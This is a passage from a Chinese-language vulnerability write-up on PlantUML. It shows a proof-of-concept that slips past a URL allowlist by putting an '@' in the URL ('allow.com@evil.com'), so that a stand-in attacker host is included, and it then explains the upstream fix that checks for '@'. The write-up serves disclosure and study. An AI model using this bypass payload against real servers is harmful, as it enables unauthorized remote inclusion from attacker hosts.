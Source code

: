综上，可以得到对应的 poc 为：

```Java
@startuml
!include https://allow.com@evil.com/
a -> b: %load_json()
@enduml
```

## 1.3 漏洞修复

通过对比修复方式可以知道：

[https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0f](https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0f)

![image.png](assets/1700702247-15e5954d6c57cfd22ffc95769a45e934.png)

主要是对 URL (Uniform Resource Locator) 中的@ 符号（用于在 URL 中指定登录信息。具体来说，它用于指定用户名和密码，以便登录远程服务器）进行了检查。

可以看到修复后，已经没办法加载对应的 URL 了：
